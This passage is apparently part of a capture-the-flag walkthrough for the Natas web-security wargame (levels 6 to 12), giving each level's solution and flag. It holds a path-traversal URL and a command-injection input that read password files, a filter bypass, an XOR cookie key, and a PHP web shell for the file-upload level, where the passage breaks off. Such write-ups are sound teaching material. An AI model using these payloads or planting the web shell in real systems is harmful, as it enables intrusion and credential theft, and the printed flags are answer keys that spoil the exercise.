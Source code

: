 **Solution**: Access `http://localhost:8080/natas6/includes/secret.inc`
**Secret**: `FOEIUWGHFEEUHOFUOIU`
**Flag**: `zLzx2id4WYHzyxmmceevO63UPzuyNQya`

### Level 7: Path Traversal via Parameters
**Objective**: Exploiting file inclusion through URL parameters

```bash
# Access password file directly
http://localhost:8080/natas7/index.php?page=/etc/natas_webpass/natas8
```

**Flag**: `3KlEdmRfcUpFcPo2sgx9XBqP8Y6xj7uK`

### Level 8: Multi-stage Encoding
**Objective**: Reverse engineering encoded data

```bash
# Decode hex -> binary -> reverse -> base64
echo 3d3d516343746d4d6d6c315669563362 | xxd -r -p | rev | base64 -d
```

**Flag**: `V097z4qcLPapOrHJJ7E3CDkqWzUP5mt0`

### Level 9: Command Injection
**Objective**: Exploiting unsanitized input in shell commands

```bash
# Input: |cat /etc/natas_webpass/natas10
# Results in: grep -i |cat /etc/natas_webpass/natas10 dictionary.txt
```

**Flag**: `oEu2vdmkINvL5VxafnCf3smQbTYQqscj`

### Level 10: Filtered Command Injection
**Objective**: Bypassing basic input filtering

```bash
# Input: a /etc/natas_webpass/natas11
# Uses grep's multiple file argument feature
```

**Flag**: `Pu9UWR8Ei5O0ANvSiP4idbLfaMRA7sHr`

### Level 11: XOR Cookie Decryption
**Objective**: Breaking XOR encryption and cookie tampering

**Solution**: Extract cookie, decrypt with XOR, modify showpassword=yes, re-encrypt
**Key**: `qw8J`
**Flag**: `RL5C33ZfMLiRoagzonsgKnSmAzZ6Wafv`

### Level 12: File Upload Vulnerability
**Objective**: Bypassing file type restrictions

```php
<?php echo shell_exec($_GET['cmd']); ?>
```
